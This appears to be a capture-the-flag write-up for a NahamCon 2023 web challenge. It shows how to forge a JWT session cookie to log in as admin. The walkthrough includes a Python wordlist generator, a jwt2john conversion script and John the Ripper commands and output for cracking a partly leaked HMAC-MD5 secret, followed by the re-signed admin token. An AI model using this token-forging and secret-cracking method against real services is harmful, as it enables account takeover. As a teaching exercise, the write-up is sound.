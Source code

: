 >Author: @congon4tor#2334  
>  
>Enjoy some of our delicious home made marmalade!
------------------------
We are prompted to choose a username to log in. No password asked. Firstly trying admin, of course we are not allowed. So I go with my old friend `asdf`.


![Pasted image 20230615153302.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615153302.png)

On login, it tells us that only admin can see the flag:

![Pasted image 20230616173145.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173145.png)

With how little content is on these pages, there is pretty much nothing else to consider other than editing the given cookie:
`token=eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg`
Based on the cookie having 3 sections separated by dots, I immediately recognize this as a JWT. Using jwt.io to decode:

![Pasted image 20230616173339.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173339.png)

The blue segment is a signature hashed with a secret key to prevent forgery, but this is not always used to verify. Perhaps we can just edit the Payload section so that our username is admin?
```
{
  "username": "admin"
}
```
Converting back to base64, our new token looks like this
`eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.SKkdg9_2EbXj67FcZNnXIg`

When I edit the cookie, it gives me an interesting new error:

![Pasted image 20230616173646.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173646.png)

```
# Bad Request

Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So while they are checking the token signatures, they did a bit of an oopsie and gave away most of their secret key!! Only the last 5 characters are hidden, making this secret key effectively 5 characters in length. This is something that can be brute-forced rather easily.

I used python to quickly generate a wordlist containing the known secret string, then appended all possible 5 letter combinations:
```python
fp = open("wordlist.txt", "w")

for i in range(ord('a'), ord('z') + 1):
    for j in range(ord('a'), ord('z') + 1):
        for k in range(ord('a'), ord('z') + 1):
            for l in range(ord('a'), ord('z') + 1):
                for m in range(ord('a'), ord('z') + 1):
                    fp.write('fsrwjcfszeg' + chr(i) + chr(j) + chr(k) + chr(l) + chr(m) +  "\n");

fp.close()
```

From this point, I can use my previously valid JWT for asdf, and use `John the Ripper` to brute force the secret key. John will accept the token when the signature is presented in hex, however I had trouble converting myself for some reason. This issue was resolved once I used [Sjord's jwtcrack code](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) to recreate my token.

Sjord's jwtcrack code:
```python
#!/usr/bin/env python3

import sys
from jwt.utils import base64url_decode
from binascii import hexlify


def jwt2john(jwt):
    """
    Convert signature from base64 to hex, and separate it from the data by a #
    so that John can parse it.
    """
    jwt_bytes = jwt.encode('ascii')
    parts = jwt_bytes.split(b'.')

    data = parts[0] + b'.' + parts[1]
    signature = hexlify(base64url_decode(parts[2]))

    return (data + b'#' + signature).decode('ascii')


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: %s JWT" % sys.argv[0])
    else:
        john = jwt2john(sys.argv[1])
        print(john)
```

```shell
$ python convert.py 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg'
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ#48a91d83dff611b5e3ebb15c64d9d722
```

Cracking the secret with john:

```shell
$ john jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-MD5 [password is key, MD5 256/256 AVX2 8x3])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fsrwjcfszegvsyfa (?)     
1g 0:00:00:04 DONE (2023-06-16 13:39) 0.2487g/s 2472Kp/s 2472Kc/s 2472KC/s fsrwjcfszegvsxlg..fsrwjcfszegvtppv
Use the "--show --format=HMAC-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

The secret key is `fsrwjcfszegvsyfa`
Now to generate a valid signature for our forged jwt. Using the first 2 base64 encoded segments, we perform HMAC-MD5 hashing, then convert from hex back to base64:

![Pasted image 20230616174953.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616174953.png)

Finalized token:
```
eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.kpCxx3dVioNEfybFE2UBxg
```

Upon refreshing the page, we get the flag.

![Pasted image 20230616141001.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616141001.png)

`flag{a249dff54655158c25ddd3584e295c3b}`
